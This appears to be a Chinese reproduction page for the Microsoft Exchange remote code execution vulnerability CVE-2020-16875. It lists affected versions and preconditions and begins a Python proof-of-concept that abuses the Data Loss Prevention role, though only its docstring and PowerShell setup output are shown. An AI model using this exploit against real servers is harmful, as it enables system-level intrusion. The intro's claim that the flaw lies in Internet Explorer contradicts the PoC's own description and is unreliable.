 （CVE-2020-16875）Microsoft Exchange 远程命令执行漏洞
=====================================================

一、漏洞简介
------------

有安全人员公开了Exchange
Server远程代码执行漏洞（CVE-2020-16875）的利用程序，此漏洞为微软在9月8日例行月度安全更新中披露；Microsoft
Exchange在Internet
Explorer处理内存中的对象时存在该漏洞。利用此漏洞需要具有以某个Exchange角色进行身份验证的用户权限。

攻击者可通过向受影响的Exchange服务器发送包含特殊的cmdlet参数的邮件来触发此漏洞，成功利用此漏洞的攻击者可在受影响的系统上以system权限执行任意代码。

### 利用条件

需要一个Exchange用户账号

二、漏洞影响
------------

Microsoft:Exchange\_server\_2016: cu16/cu17

Microsoft:Exchange\_server\_2019: cu5/cu6

三、复现过程
------------

需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

### poc

> CVE-2020-16875.py

![1.png](./resource/(CVE-2020-16875)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

    #!/usr/bin/env python3
    """
    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
    Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

    # Notes:

    The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

    [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"

    Name      AssignedRoles          RoleAssignments                  ManagedBy
    ----      -------------          ---------------                  ---------
    dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

    [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

    RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
    ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
    RoleAssignments             : {Data Loss Prevention-dlp users}
    Roles                       : {Data Loss Prevention}
    DisplayName                 :
    ExternalDirectoryObjectId   :
    Members                     : {exchangedemo.com/Users/Harry Mull}
    SamAccountName              : dlp users
    Description                 :
    RoleGroupType               : Standard
    LinkedGroup                 :
    Capabilities                : {}